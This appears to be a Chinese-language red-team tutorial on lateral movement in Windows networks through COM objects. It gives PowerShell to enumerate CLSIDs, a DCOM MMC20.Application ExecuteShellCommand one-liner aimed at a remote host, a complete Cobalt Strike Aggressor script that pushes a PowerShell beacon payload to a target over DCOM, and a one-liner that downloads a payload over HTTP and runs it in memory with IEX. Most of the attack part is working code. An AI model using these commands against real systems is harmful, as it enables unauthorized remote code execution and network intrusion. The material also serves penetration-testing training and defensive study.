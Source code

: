 ### 内网横向系列 —— 利用COM对象

#### 0x01 什么是COM对象

微软组件对象模型（Component Object Model，COM）是平台无关、分布式、面向对象的一种系统，可以用来创建可交互的二进制软件组件”。COM是微软OLE（复合文档）、ActiveX（互联网支持组件）以及其他组件的技术基础，COM允许对象跨进程和计算机边界进行交互。COM的核心是一组组件对象间交互的规范，定义了组件对象如何与其用户通过二进制接口标准进行交互，COM的接口是组件的类型纽带。COM还提供定位服务的实现，可以根据Windows系统注册表，从一个类标识（CLSID）来确定COM组件的位置（也可使用程序标识符（ProgID）是标识一个COM，但精度较低，因为不能保证它是全局唯一的），**可以用CLSID实例化每个对象，然后枚举每个COM对象公开的方法和属性**。一个COM组件可以实现多个COM对象，每个COM对象实现多个COM接口，DLL或者EXE作为COM组件的实现的容器。COM采用自己的IDL来描述组件的接口（interface），支持多接口，解决版本兼容问题。COM为所有组件定义了一个共同的父接口IUnknown。GUID 是一个 128 位整数（16 字节），COM将其用于计算机和网络的唯一标识符。



#### 0x02 枚举COM对象



`Get-ChildItem -Path HKCR:\CLSID -Name | Select -Skip 1`

根据CLSID获取COM对象的属性和方法

```
PS C:\Users\Administrator\Desktop> $handle = [activator]::CreateInstance([type]::GetTypeFromCLSID("{00000305-0000-0000-C000-000000000046}"))
PS C:\Users\Administrator\Desktop> $handle | Get-Member
```

![](./media/1.png)



#### 0x03 利用MMC20.Application横向移动

MMC应用程序类（MMC20.Application），这个COM对象允许使用脚本来处理MMC管理单元组件，它的[ExecuteShellCommand](https://docs.microsoft.com/zh-cn/previous-versions/windows/desktop/mmc/view-executeshellcommand?redirectedfrom=MSDN)属性可以执行远程命令。前提是当前上下文拥有远程计算机的权限（如域管）且远程计算机的防火墙过关闭。

```
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.145.11")).Document.ActiveView.ExecuteShellCommand("C:\\windows\\system32\\cmd.exe", $null,"/c calc.exe","7")
```

![](./media/2.png)



CNA利用脚本

```python
# Lateral Movement alias
# https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/

# register help for our alias
beacon_command_register("com-exec", "lateral movement with DCOM",
	"Synopsis: com-exec [target] [listener]\n\n" .
	"Run a payload on a target via DCOM MMC20.Application Object");

# here's our alias to collect our arguments
alias com-exec {
	if ($3 is $null) {
		# let the user choose a listener
		openPayloadHelper(lambda({
			com_exec_go($bid, $target, $1);
		}, $bid => $1, $target => $2));
	}
	else {
		# we have the needed arguments, pass them
		com_exec_go($1, $2, $3);
	}
}

# this is the implementation of the attack
sub com_exec_go {
	local('$command $script $oneliner');

	# check if our listener exists
	if (listener_info($3) is $null) {
		berror($1, "Listener $3 does not exist");
		return;
	}

	# state what we're doing.
	btask($1, "Tasked Beacon to jump to $2 (" . listener_describe($3, $2) . ") via DCOM");

	# generate a PowerShell one-liner to run our alias	
	$command = powershell($3, true, "x86");

	# remove "powershell.exe " from our command
	$command = strrep($command, "powershell.exe ", "");

	# build script that uses DCOM to invoke ExecuteShellCommand on MMC20.Application object
	$script  = '[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "';
	$script .= $2;
	$script .=  '")).Document.ActiveView.ExecuteShellCommand("';
	$script .= 'c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe';
	$script .= '", $null, "';
	$script .= $command;
	$script .= '", "7")';

	# run the script we built up
	bpowershell!($1, $script);
	
	# complete staging process (for bind_pipe listeners)
	bstage($1, $2, $3);
}
```

此外，也可以利用[ShellWindows](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)进行横向移动

#### 0x04 其他com对象利用

内存加载执行

```
[activator]::CreateInstance([type]::GetTypeFromCLSID("F5078F35-C551-11D3-89B9-0000F81FE221")); $o.Open("GET", "http://127.0.0.1/payload", $False); $o.Send(); IEX $o.responseText;
```

以及这篇[博客](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)提到的。